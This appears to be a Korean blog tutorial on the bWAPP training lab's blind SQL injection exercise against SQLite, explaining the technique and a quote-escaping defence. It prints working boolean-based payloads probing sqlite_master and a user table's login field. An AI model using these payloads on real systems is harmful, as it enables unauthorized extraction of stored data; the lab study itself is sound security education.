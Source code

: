 ```yaml
---
title: "[bWAPP] 1. Injection - SQL Injection - Blind(SQLite)"
---
```


<br>

## Injection

공격자가 신뢰할 수 없는 입력을 프로그램에 주입하도록 하는 공격.

<br>

<br>

## SQL Injection

응용 프로그램 보안 상의 허점을 의도적으로 이용해, 

임의의 SQL문을 주입하여 악의적인 SQL문을 실행하게 함으로써

DB를 비정상적으로 조작하는 코드 인젝션의 대표적인 공격.

이로인해 공격자가 DB에 저장되어 있는 다른 사용자의 개인 정보 등 허가되지 않은 정보에 접근하여,

데이터 변조 및 조작 가능.

<br>

<br>

## Blind Injection

Blind SQL Injection으로 많이 사용

SQL인젝션 공격에는 쿼리 조건을 무력화하여 인증을 우회하거나,쿼리 결과에 정보를 붙여서 데이터를 유출하거나 시스템 명령어를 삽입하는 형태로 공격이 진행

하지만, 공격하는 대상 웹페이지가 어떤 오류도 출력하지 않고 쿼리 겨로가 리스트도 제공하지 않는다면 

Blind SQL Injection으로 쿼리 결과의 참/거짓을 통해 DB 값 유출해 내는 기법

<br>

### SQLite

MySQL이나 PostgreSQL과 같은 DBMS지만,

서버가 아니라 응용프로그램에 넣어 사용하는 비교적 가벼운 DB.

일반적인 DBMS에 비해 대규모작업에는 적합하지 않지만, 중소 규모라면 속도에 손색 없음.

또 API는 단순히 라이브러리를 호추하는 것만 있으며, 데이터를 저장하는 데 하나의 파일만을 사용하는 것이 특징.

![image-20220317025423862](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317025423862.png)

- 참 거짓을 이용해 앞서 진행했던 길이, 대소문자 구분, 대조 방법을 이용하자

![image-20220317031022040](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317031022040.png)

- 참

![image-20220317031056272](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317031056272.png)

- 거짓

<br>

### 테이블 조회

![image-20220317030328023](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317030328023.png)

`' or length((select tbl_name from sqlite_master limit 0,1))=1 --`

- 이런식으로 DB의 길이를 하나하나 참 거짓으로 대입해봐서 알아내면 됨
- 길이 구해주고
  - tbl_name = table_name
  - sqlite_master = information_schema

`' or substr((select tbl_name from sqlite_master limit 0,1),1,1)='a' --`

- substring 명령어를 통해 database의 첫번쨰 위치의 길이 1값이 a가 맞는지 확인한다.

`SUBSTR(str, pos, len)`

- str에서 pos 번째 위치의 len개의 문자를 읽어 들임

<br>

### 컬럼 조회

![image-20220317030535569](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317030535569.png)

`' or length((select sql from sqlite_master where tbl_name='heroes' limit 0,1))=1 --`

- 길이
- sql = column_name

`' or substr((select sql from sqlite_master where tbl_name='heroes' limit 0,1),1,1)='a' --`

- 문자 대조!

<br>

### 컬럼 속성

![image-20220317030703941](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317030703941.png)

`' or length((select login from heroes limit 0,1))=1 --`

- 길이

`' or substr((select login from heroes limit 0,1),1,1)='a' --`

- 문자 대조

<br>

<br>

## 대응방안

### Linux

![image-20220318001547842](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220318001547842.png)

- vi 편집기로 sqli_14.php 소스코드 열어준다.
- Level 1, 2 = Medium, High 에서 sqli_check_4 함수 사용

<br>

### functions_external.php

![image-20220318001942380](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220318001942380.png)

- 홀로있는 작은 따옴표를 두개의 작은 따옴표로 대체해준다. 
- 작은 따옴표를 열어줌과 동시에 닫아줌으로써 코드가 삽입되더라도 실행되지 못하게 Injection에 대해 방어하고 있다.
